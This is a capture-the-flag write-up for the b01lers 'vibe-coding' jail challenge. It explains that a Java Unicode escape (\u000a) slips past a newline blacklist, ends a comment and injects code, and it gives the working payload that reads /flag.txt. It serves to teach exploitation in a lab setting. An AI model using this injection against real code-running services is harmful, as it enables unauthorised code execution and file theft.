 # jail/vibe-coding

## Challenge Summary
b01lers is looking for a vibe coder to fix our Java codebase! Just write a comment, and our bleeding-edge LLM agent will fill in the rest.*

Disclaimer: model not yet implemented.

`ncat --ssl vibe-coding.atreides.b01lersc.tf 8443`

## Overview

Connect to ncat --ssl vibe-coding.atreides.b01lersc.tf 8443. The service runs a Python script (server.py) that takes your input, inserts it as a comment in a Java template, compiles, and executes it.  
Our goal is exploit this to read /flag.txt.

**Setup**: Docker with pwn.red/jail, flag at /srv/flag.txt, accessible as /flag.txt in Java.  
**Server Script**: Blacklists \r, \n. Input becomes // <input> in:

```java
public class Main {
    // %s
    public static void main(String[] args) {}
    public static String getFlag() throws IOException {
        throw new RuntimeException("Not implemented yet");
    }
}
```

**Vulnerability**: Java processes Unicode escapes (e.g., \u000a = newline) before compilation. \u000a bypasses blacklist, ends comment, allowing code injection.

## Solution

Inject a static block to read and print `/flag.txt`:  

```java
\u000a static { try { java.io.BufferedReader br = new java.io.BufferedReader(new java.io.FileReader("/flag.txt"));
System.out.println(br.readLine()); } catch (Exception e) { } }
```
